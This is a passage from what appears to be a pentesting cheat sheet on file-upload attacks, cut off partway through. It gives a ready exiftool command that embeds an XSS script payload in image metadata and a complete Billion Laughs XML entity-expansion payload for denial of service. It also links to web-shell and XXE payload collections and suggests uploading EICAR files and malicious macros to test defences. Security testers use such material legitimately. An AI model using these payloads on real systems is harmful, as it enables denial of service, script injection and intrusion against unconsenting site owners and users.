 
7. Upload file with XSS payload within metadata
```
exiftool -Comment='"><script>alert()</script> image.jpg
```


## Web Shells
Where to get them from: https://github.com/BlackArch/webshells


## XML External Entities Injection

Upload ```.SVG, .XML, .XSD, .XMP, .XSLT, .XHTML``` files with payloads

https://github.com/payloadbox/xxe-injection-payload-list

If the ```SYSTEM``` entity is restricted, then try the Billion Laughs attack for Application Denial-of-Service (DoS)

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## Malicious File Upload

1. Upload an Anti Malware Testfile - EICAR (which will not do any harm if executed, but is detected by almost all anti-virus vendors) in order to check if there is an anti-virus check before storing the file

Link: https://www.eicar.org/download-anti-malware-testfile/

2. If .EXE is not allowed, try to upload the allowed file extension (e.g. .PDF) with the content of the EICAR file

3. Upload files containing malicious macros (DOCM, CSV, etc.)

## File Storage Attacks

1. Upload a file within the account/storage of another user<br>
